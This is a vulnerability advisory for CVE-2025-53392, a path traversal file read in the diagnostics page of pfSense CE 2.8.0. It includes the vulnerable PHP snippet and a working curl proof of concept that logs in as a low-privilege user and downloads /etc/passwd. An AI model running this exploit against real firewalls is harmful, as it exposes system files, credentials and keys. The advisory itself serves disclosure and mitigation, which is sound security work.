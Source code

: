 # Arbitrary File Read in pfSense 2.8.0 via Diagnostics Web Interface

#### CVE ID: [`CVE-2025-53392`](https://nvd.nist.gov/vuln/detail/CVE-2025-53392)

#### Date: 2025-06-27

#### Author: Seth Kraft

#### Vendor Homepage: [https://www.netgate.com/](https://www.netgate.com/)

#### Vendor Changelog: [https://docs.netgate.com/pfsense/en/latest/releases/](https://docs.netgate.com/pfsense/en/latest/releases/)

#### Software Link: [https://www.pfsense.org/download/](https://www.pfsense.org/download/)

#### Version: pfSense CE 2.8.0 (latest stable as of June 26, 2025)

#### CWE: CWE-36 (Absolute Path Traversal)

#### Estimated CVSS Base Score: 5.0 (Medium)

#### Estimated Vector String: `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:N/A:N`

#### Type: Authenticated Arbitrary File Read / Local File Disclosure

---

## Authorization

**For authorized testing and research purposes only.** Do not test or exploit this vulnerability on systems you do not own or have explicit permission to test.

---

## Summary

pfSense CE 2.8.0 contains a Local File Disclosure vulnerability in the diagnostics page `diag_command.php`, which allows authenticated users to download arbitrary files from the underlying file system.

An attacker with privileged web access can supply an arbitrary path in the `dlPath` parameter to exfiltrate sensitive files. 

This functionality lacks any path sanitization, directory restriction, or access controls beyond permission assignment.

---

## Details

The vulnerable logic is located in the file `src/usr/local/www/diag_command.php`:

```php
if ($_POST['submit'] == "DOWNLOAD" && file_exists($_POST['dlPath'])) {
    session_cache_limiter('public');
    send_user_download('file', $_POST['dlPath']);
}
```

There are no security checks or sanitization measures applied to the user-controlled `dlPath` parameter. 

Any file path the PHP process can read will be served back to the user.

---

## Proof of Concept

**Create `low-priv` group and assign a single privilege** (`WebCfg - Diagnostics: Command`)
![Screenshot 2025-06-27 133201](https://github.com/user-attachments/assets/b1063a5c-442a-4628-ac94-e0fa5d6f10c4)

> I appreciate the built-in security warning related to assigning the `WebCfg - Diagnostics: Command` privilege. But this disclaimer does not constitute as proper access control.
>
> A permission in a web interface should be scoped based on its label and intended use — not assumed to equate to root-level access on the underlying operating system.

**Assign `low-priv` group to** `dev` **user**
![Screenshot 2025-06-27 133218](https://github.com/user-attachments/assets/7224934e-ae31-4aa1-b879-b4f1aee7e00c)

This proof-of-concept demonstrates a user assigned with only `WebCfg - Diagnostics: Command` permission can exfiltrate `/etc/passwd` by abusing the unsanitized `dlPath` parameter.

```bash
# 1. Start session and extract CSRF token
curl -k -c cookies.txt -s https://<IP>/diag_command.php > login_page.html
csrf_token=$(grep '__csrf_magic' login_page.html | grep 'value=' | sed -E 's/.*value="([^"]+)".*/\1/')

# 2. Authenticate as low-privileged user "dev"
curl -k -b cookies.txt -c cookies.txt \
  -d "__csrf_magic=$csrf_token" \
  -d "usernamefld=dev" \
  -d "passwordfld=pass" \
  -d "login=Sign+In" \
  https://<IP>/index.php > /dev/null

# 3. Get CSRF token post-login
curl -k -b cookies.txt -s https://<IP>/diag_command.php > diag_authed.html
csrf_token=$(grep '__csrf_magic' diag_authed.html | grep 'value=' | sed -E 's/.*value="([^"]+)".*/\1/')

# 4. Exfiltrate arbitrary file (example: /etc/passwd)
curl -k -b cookies.txt -s -X POST https://<IP>/diag_command.php \
  -d "__csrf_magic=$csrf_token" \
  -d "submit=DOWNLOAD" \
  -d "dlPath=/etc/passwd"
```

---

## Demo
![pfSense-authenticated-file-disclosure-poc](https://github.com/user-attachments/assets/0dfe9727-aab4-4b17-bcb9-5a69998549a5)

---

## Impact

Any pfSense user assigned the `WebCfg - Diagnostics: Command` privilege can:

* Read sensitive local system files
* Extract backups, credentials, and keys
* Access files far beyond their intended permissions

This violates the principle of least privilege and breaks logical privilege boundaries.

---

## Suggested Mitigation

1. Restrict `dlPath` to a safe base directory (e.g., `/tmp`) using `realpath()` and prefix enforcement
2. Strip or block paths with `..` or absolute paths
3. Only allow downloads of files in a safelist or temporary artifact directory

---

## Disclosure Timeline

* **2025-06-26:** Vulnerability reported to Netgate
* **2025-06-27:** Netgate responded — dismissing the issue as intended behavior
* **2025-06-27:** Researcher responded with technical rebuttal — vendor reiterated dismissal
* **2025-06-27:** Researcher initiated public disclosure due to final vendor dismissal — requested CVE assignment from MITRE
* **2025-06-28:** MITRE assigned [`CVE-2025-53392`](https://nvd.nist.gov/vuln/detail/CVE-2025-53392) with vendor disputed tag

---

> While the vendor asserts that access to this page equates to root, this conflates web-level permissions with unrestricted backend access.
>
> Privilege should be technically enforced — not assumed — and warnings in the UI are no substitute for secure design.

A diagnostics module in the web interface of a firewall must contain proper safeguards to prevent abuse against the underlying operating system.

* Diagnostic commands should be functionally limited to ping, traceroute, log view, etc.
* Commands should run inside a restricted shell or chroot.
* File access should be explicitly scoped to safe directories (/tmp, /var/log).
* Permissions should be fine-grained, and clear in scope.

---
